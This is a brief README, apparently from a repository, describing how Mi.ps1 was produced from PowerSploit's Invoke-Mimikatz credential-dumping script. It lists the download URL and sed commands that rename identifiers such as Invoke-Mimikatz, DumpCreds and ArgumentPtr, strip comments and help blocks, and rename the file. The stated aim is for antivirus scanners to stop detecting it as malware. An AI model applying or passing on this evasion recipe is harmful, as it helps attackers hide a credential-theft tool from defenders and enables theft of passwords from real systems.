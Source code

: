 # Mimikatz

Mi.ps1 is a modified version of Mimikatz which is available at https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

I downloaded the file an modified it with the following commands:

sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/BirdIsTheWord/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/UnceUnceUnce/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

At the end I renamed the file with

mv Invoke-Mimikatz.ps1 Mi.ps1

This will change the bahivor of most AV scanners. The file will be no longer detected as maleware, but the execution will be still blocked when the code sucked in.
